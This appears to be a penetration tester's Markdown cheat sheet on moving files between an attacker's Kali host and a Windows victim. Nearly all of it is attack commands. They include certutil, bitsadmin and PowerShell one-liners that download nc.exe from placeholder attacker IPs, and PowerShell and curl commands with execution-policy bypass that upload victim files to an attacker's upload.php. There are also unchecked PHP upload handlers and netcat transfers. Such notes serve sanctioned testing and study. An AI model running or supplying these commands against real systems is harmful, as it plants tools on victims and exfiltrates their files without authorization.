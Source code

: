 # File transfer

## Http

### Download

source: https://medium.com/@PenTest_duck/almost-all-the-ways-to-file-transfer-1bd6bf710d65

#### Python

```
python -m http.server 8080
```

#### Apache

```
mv somefile /var/www/html
systemctl start apache2
```

### Upload

sources: 
- https://infosecwriteups.com/tip-uploading-files-from-windows-to-kali-using-php-63aadde872a9
- https://davidhamann.de/2019/04/12/powershell-invoke-webrequest-by-example/
- https://stackoverflow.com/questions/22491129/how-to-send-multipart-form-data-with-powershell-invoke-restmethod

#### Php on Kali

Make a `upload.php` file in `/var/www/html/`:
```
vim /var/www/html/upload.php
```
as
```
<?php
  $target_dir = "uploads/";
  $target_file = $target_dir . basename($_FILES["targetfile"]["name"]);
  move_uploaded_file($_FILES["targetfile"]["tmp_name"], $target_file)
?>
```
then make a `upload.html` file in `/var/www/html/`:
```
vim /var/www/html/upload.html
```
as
```
<html>
<head></head>
    <body>
        <form action="upload.php" method="POST" enctype="multipart/form-data">
            <br><br>
            Choose a file:<br>
            <input type="file" name="targetfile"/><br>
            <input type="submit" name="submit" value="upload"/>
        </form>
    </body>
</html>
```
then make the `uploads` directory with write rights:
```
mkdir /var/www/html/uploads
chown www-data.www-data /var/www/html/uploads
chmod766 /var/www/html/uploads
```
and start the `apache2` service:
```
systemctl start apache2
```

#### On Windows

```
powershell -nop -exec bypass Invoke-RestMethod -Uri http://IpAtt/upload.php -Method Post -Infile 'c:\path\to\file.txt'
```
or
```
curl -H Content-Type:"multipart/form-data" --form targetfile=@"c:\path\to\file.txt" -X Post -v http://IpAtt/upload.php
```
or
```
$fieldName = 'targetfile' # name of the field in upload.php
$filePath = 'C:\full\path\to\file.txt' # full path...
$url = 'http://AttackerIpAddress/upload.php'

Add-Type -AssemblyName 'System.Net.Http'

$client = New-Object System.Net.Http.HttpClient
$content = New-Object System.Net.Http.MultipartFormDataContent
$fileStream = [System.IO.File]::OpenRead($filePath)
$fileName = [System.IO.Path]::GetFileName($filePath)
$fileContent = New-Object System.Net.Http.StreamContent($fileStream)
$content.Add($fileContent, $fieldName, $fileName)
$result = $client.PostAsync($url, $content).Result
```

#### Http on another Apache2 server

```
vim upload.html

<html>
  <head></head>
  <body>
    <form action="http://IpAtt/upload.php" method="POST" enctype="multipart/form-data">
      <br><br>
      Choose a file: <br>
      <input type="file" name="targetfile"><br>
      <input type="sumbit" name="submit" value="upload">
    </form>
  </body>
</html>
```
To upload on a browser at `http://AttackerIpAddress/upload.html`

## Other Linux tools

### Netcat `nc`

```
listener$ nc -lnvp 4444 > received.txt
sender$ nc $ListenerIp 4444 tosend.txt
```

### FTP

On the client:
```
ftp_client$ ftp $FtpServerIp
    Name: anonymous
    Password: 
    230 Login successful.
    ftp> 
```
FTP commands:
- `ls`
- `get somefile.txt`
- `put someotherfile.txt`
- `quit`
- `ascii`
- `binari`: https://knowledge.broadcom.com/external/article/28212/ftp-ascii-vs-binary-mode-what-it-means.html


## LolBas

Connection with `xfreerdp`:
```
xfreerdp +clipboard /u:myuser /p:mypass /v:VictimIP
```

### Cmd shell

#### Certutil

Simpler:
```
cerutils -urlcache -split -f http://AttackerApacheIP/nc.exe nc.exe
```

#### Bitsadmin

Longer:
```
bitsadmin /create MyDownload
bitsadmin /addfile MyDownload http://AttackerIP/nc.exe C:\Users\myuser\Downloads\nc.exe
bitsadmin /resume MyDownload
bitsadmin /info MyDownload /verbose
bitsadmin /complete MyDownload
```

### Powershell

#### WebClient API

Download script: `PS> type .\mywgetscript.ps1`
```
$webclient = New-Object System.Net.WebClient
$url = "http://$AttackerIP/nc.exe"
$file = "nc.exe"
$webclient.DownloadFile($url,$file)
```
and run it:
```
PS> powershell.exe -ExecutePolicy Bypass -Nologo -NonInteractive -NoProfile -File .\mywgetscript.ps1
```
or as a one-liner:
```
PS> powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://$AttackerIp/nc.exe', 'nc.exe')
```

#### WebRequest API

Native request:
```
PS> Invoke-WebRequest -URI http://$AttackerIP/nc.exe -OutFile nc.exe
```
or with the alias `wget`:
```
PS> wget http://$AttackerIp/nc.exe -o nc.exe
```

#### Uploads to Kali

On Kali, at `/var/www/html/uploadForWindows.php`:
```
<?php 
$uploaddir = '/var/www/html/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
```
and in Powershell:
```
PS> powershell (New-Object System.Net.WebClient).UploadFile('http://$AttackerIp/uploadForWindows.php', 'localfileonwindows.txt')
```

## File recovery

```
sudo foremost -v -q -t jpg -i /dev/sdaX -o ./myrecoverydir
```
